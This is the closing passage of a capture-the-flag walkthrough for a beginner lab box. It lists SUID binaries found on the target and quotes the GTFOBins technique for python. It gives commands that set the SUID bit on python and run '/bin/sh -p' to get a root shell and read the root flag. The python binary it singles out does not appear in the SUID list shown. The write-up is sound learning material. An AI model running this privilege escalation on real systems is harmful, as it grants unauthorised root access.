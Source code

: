 ```bash
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

`/usr/bin/python` seems like the one that sticks out and we should look into, let’s go to our [GTFOBins Repository](https://gtfobins.github.io/gtfobins/python/)

Reading from the **SUID** section, we run the following (explanation below)

```bash
sudo install -m =xs $(which python) .
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

💡 
*If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (&lt;= Stretch) that allow the default sh shell to run with SUID privileges. This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.*
 <br>

Once run, we will see a new root shell and we can navigate to `/root/root.txt` to get our flag.

Overall, boxes such as this one are a good starting point to get exposed to typical exploitation and I highly recommend it if you're starting out.